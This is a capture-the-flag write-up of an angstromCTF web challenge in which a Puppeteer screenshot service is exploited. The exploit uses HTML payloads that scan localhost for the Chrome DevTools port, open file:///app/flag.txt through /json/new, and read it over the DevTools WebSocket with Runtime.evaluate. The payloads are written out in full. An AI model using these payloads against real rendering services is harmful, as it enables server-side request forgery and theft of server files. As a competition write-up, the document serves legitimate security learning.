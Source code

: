 # Watered Down Watermark as a Service

**Category**: Web \
**Points**: 240 (15 solves) \
**Author**: lamchcl

## Challenge

We took Watermark as a Service and [watered it down](wdwaas.zip). Hopefully you can still [get the flag](https://wdwaas.2021.chall.actf.co/)!

## Overview

We are presented with a beautiful animated site:

![s](s.png)

Give it something like https://www.google.com and it returns a screenshot with
a subtle watermark:

<img src="x.png" width="400" height="300">

How does it do this? Using [Puppeteer](https://pptr.dev/), a headless browser:

```javascript
function checkURL(url) {
    const urlobj = new URL(url)
    if(!urlobj.protocol || !['http:','https:'].some(x=>urlobj.protocol.includes(x)) || urlobj.hostname.includes("actf.co")) return false
    return true
}

const browser = puppeteer.launch({
    args: ['--no-sandbox', '--disable-setuid-sandbox']
})

async function visit (url) {
	if (!checkURL(url)) return 'no!!!!'
	let ctx = await (await browser).createIncognitoBrowserContext()
	let page = await ctx.newPage()
	page.on('framenavigated',function(frame){
		if (!checkURL(frame.url())) return 'no!!!!'
	})
	await page.setCookie(thecookie)
	await page.goto(url)
	const imageBuffer = await page.screenshot();
	const outputBuffer = await sharp(imageBuffer)
		.composite([{ input: "dicectf.png", gravity: "southwest" }]) // this was definitely not taken from dicectf trust me
		.toBuffer()
	await page.close()
	await ctx.close()
	return outputBuffer;
}
```

## Solution

Video: [s.mp4](s.mp4)

The code mentions a challenge from Dice CTF:
[Watermark as a Service](https://github.com/tlyrs7314/ctf-writeups/tree/main/DiceCTF2021/Watermark-as-a-Service)
(245 points, 20 solves).

The intended solution for that one was to use Google Cloud API to grab the
docker challenge container. Luckily I remembered seeing an unintended solution
posted in the Dice CTF discord:

![r](r.png)

Exploit:
1. Find the Chrome DevTools debug port
2. Open a new tab to `file:///app/flag.txt` using the `/json/new` DevTools endpoint
3. Read the flag by connecting to said tab's Web Socket

The method sodaLee used to find the debug port was to use a bunch of `<iframe>`
tags. That won't work here because of this:
```javascript
    // ...
    page.on('framenavigated',function(frame){
        if (!checkURL(frame.url())) return 'no!!!!'
    })
```

If an `<iframe>` fails, it goes to `chrome://network-error/` which `checkURL()`
doesn't like. One way to bypass this is to use `fetch` with `no-cors`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get port</title>
    </head>
    <body>
        <pre id="urls">Hi</pre>
        <script>
            for (let port = 35000; port < 45000; port++) {
                const url = `http://127.0.0.1:${port}`
                fetch(url, {mode: 'no-cors'}).then(res => {
                    urls.textContent += `\n${url}`
                })
            }
        </script>

        <!-- Delay page load to keep script running -->
        <link rel="stylesheet" href="http://difajosdifjwioenriqoewrowifjaoijdaf.com">
    </body>
</html>
```

After starting an `ngrok` server, I sent my HTML page to be rendered. After
tweaking the port range a few times, I got:

<img src="p.png" width="400" height="300">

Then I sent http://127.0.0.1:40027/json/new?file:///app/flag.txt to the server, giving me:

<img src="id.png" width="400" height="300">

To extract the ID from the image, I used Tesseract OCR:
```sh
$ tesseract id.png stdout -c tessedit_char_whitelist=0123456789ABCDEF
...
C7F7841F482A9778859C24D8C768FCDE
...
```

Had to fix a few errors manually:
```diff
- C7F7841F482A9778859C24D8C768FCDE
+ C7F7841F4A2A0778859C24D8C768FCDE
```

Then I put the ID into `get_flag.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get flag</title>
    </head>
    <body>
        <script>
            const id = 'C7F7841F4A2A0778859C24D8C768FCDE'
            window.ws = new WebSocket(`ws://127.0.0.1:40027/devtools/page/${id}`)
            ws.onerror = (e => {document.writeln('error')})
            ws.onmessage = (e => { document.writeln("<pre>" + e.data + "</pre>"); })
            ws.onopen = () => {
                ws.send(JSON.stringify({
                    id: 1,
                    method: 'Runtime.evaluate',
                    params: { expression: 'document.body.innerHTML' }
                }))
            }
        </script>
    </body>
</html>
```

Then I sent http://xxxxxxxxxxxx.ngrok.io/get_flag.html to be rendered, which
give me the flag:

<img src="f.png" width="400" height="300">

Cool challenge!
